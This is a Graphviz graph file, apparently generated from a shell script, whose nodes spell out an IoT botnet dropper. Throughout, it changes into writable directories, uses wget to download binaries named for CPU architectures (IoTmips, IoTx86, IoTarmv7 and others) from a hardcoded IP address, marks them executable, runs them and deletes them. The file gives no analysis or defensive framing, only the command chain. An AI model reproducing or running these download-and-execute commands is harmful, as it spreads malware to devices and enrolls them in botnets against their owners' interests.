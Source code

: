 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://149.56.97.35/IoTmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x IoTmips "];
12 -> 14 [label=";,"];
14 [label="./IoTmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf IoTmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://149.56.97.35/IoTmips64 "];
28 -> 30 [label=";,"];
30 [label="chmod +x IoTmips64 "];
30 -> 32 [label=";,"];
32 [label="./IoTmips64 "];
32 -> 34 [label=";,"];
34 [label="rm -rf IoTmips64 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://149.56.97.35/IoTmipsel "];
46 -> 48 [label=";,"];
48 [label="chmod +x IoTmipsel "];
48 -> 50 [label=";,"];
50 [label="./IoTmipsel "];
50 -> 52 [label=";,"];
52 [label="rm -rf IoTmipsel "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://149.56.97.35/IoTsh4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x IoTsh4 "];
66 -> 68 [label=";,"];
68 [label="./IoTsh4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf IoTsh4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://149.56.97.35/IoTx86 "];
82 -> 84 [label=";,"];
84 [label="chmod +x IoTx86 "];
84 -> 86 [label=";,"];
86 [label="./IoTx86 "];
86 -> 88 [label=";,"];
88 [label="rm -rf IoTx86 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://149.56.97.35/IoTi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x IoTi686 "];
102 -> 104 [label=";,"];
104 [label="./IoTi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf IoTi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://149.56.97.35/IoTpowerpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x IoTpowerpc "];
120 -> 122 [label=";,"];
122 [label="./IoTpowerpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf IoTpowerpc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://149.56.97.35/IoTm86k "];
136 -> 138 [label=";,"];
138 [label="chmod +x IoTm86k "];
138 -> 140 [label=";,"];
140 [label="./IoTm86k "];
140 -> 142 [label=";,"];
142 [label="rm -rf IoTm86k "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://149.56.97.35/IoTsparc "];
154 -> 156 [label=";,"];
156 [label="chmod +x IoTsparc "];
156 -> 158 [label=";,"];
158 [label="./IoTsparc "];
158 -> 160 [label=";,"];
160 [label="rm -rf IoTsparc "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://149.56.97.35/IoTarmv4 "];
172 -> 174 [label=";,"];
174 [label="chmod +x IoTarmv4 "];
174 -> 176 [label=";,"];
176 [label="./IoTarmv4 "];
176 -> 178 [label=";,"];
178 [label="rm -rf IoTarmv4 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://149.56.97.35/IoTarmv5 "];
190 -> 192 [label=";,"];
192 [label="chmod +x IoTarmv5 "];
192 -> 194 [label=";,"];
194 [label="./IoTarmv5 "];
194 -> 196 [label=";,"];
196 [label="rm -rf IoTarmv5 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://149.56.97.35/IoTarmv6 "];
208 -> 210 [label=";,"];
210 [label="chmod +x IoTarmv6 "];
210 -> 212 [label=";,"];
212 [label="./IoTarmv6 "];
212 -> 214 [label=";,"];
214 [label="rm -rf IoTarmv6 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://149.56.97.35/IoTarmv7 "];
226 -> 228 [label=";,"];
228 [label="chmod +x IoTarmv7 "];
228 -> 230 [label=";,"];
230 [label="./IoTarmv7 "];
230 -> 231 [label=";,"];
}
